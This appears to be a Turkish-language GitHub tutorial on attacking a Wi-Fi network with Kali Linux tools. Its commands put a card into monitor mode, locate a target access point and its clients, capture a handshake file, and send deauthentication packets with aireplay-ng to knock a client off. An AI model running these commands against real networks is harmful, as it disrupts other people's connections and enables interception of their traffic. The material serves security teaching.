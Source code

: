  **Kali Linux İşletim Sistemi Araçlarını Kullanarak Kablosuz Ağda Dinleme, Saldırı Yapma, Veri
Paketi Yakalama ve Bu Paketleri Çözümleme**
 
 1. Adım: Kali Linux konsol satırına sudo airmon-ng start wlan0 yazarak ağ kartını monitör
moda geçiriniz.
 
 2. Adım: Komut satırına sudo iwconfig yazarak, ağ kartının monitör modda olup olmadığını
kontrol ediniz.

 3. Adım: Komut satırına sudo airodump-ng wlan0 yazarak çevredeki erişim noktalarını tespit
ediniz.
 
 4. Adım: Hedef cihazın MAC adresini ve kanal numarasını seçiniz
 
 <img src="https://github.com/FazzPy/Cyber-Security/blob/main/img/airodump1.PNG">
 
 5. Adım: Komut satırına sudo airodump-ng --bssid Hedef Cihaz MAC Adresi -c Kanal No
wlan0 yazınız. Seçilen hedef cihazı dinlemeye alarak bu cihaza bağlanan istemcileri ve MAC
adreslerini bulunuz
 
<img src="https://github.com/FazzPy/Cyber-Security/blob/main/img/airodump2.PNG">
 
 6. Adım: Komut satırına sudo airodump-ng -c Hedef Cihaz Kanal No --bssid Hedef Cihaz
MAC Adresi -w /root/kali/Desktop/deneme yazınız. Seçilen hedef cihazla belirtilen kanal
numarasından bağlantı kurup, yapılan görüşmelerden bir bilgi paketi yakalayarak deneme.cap
ismi ile masaüstüne kaydediniz.
 
 <img src="https://github.com/FazzPy/Cyber-Security/blob/main/img/airodump3.PNG">
 
 7. Adım: Başka bir komut penceresi açınız ve komut satırına sudo aireplay-ng --deauth 0
-a –bssid Hedef Cihaz MAC Adresi –c Hedefe Bağlı Olan istemci MAC Adresi wlan0 yazınız. Bu
işlem ile hedef erişim noktası ve istemci cihaz arasına girerek sahte kimlik doğrulama paketleri
gönderiniz.
 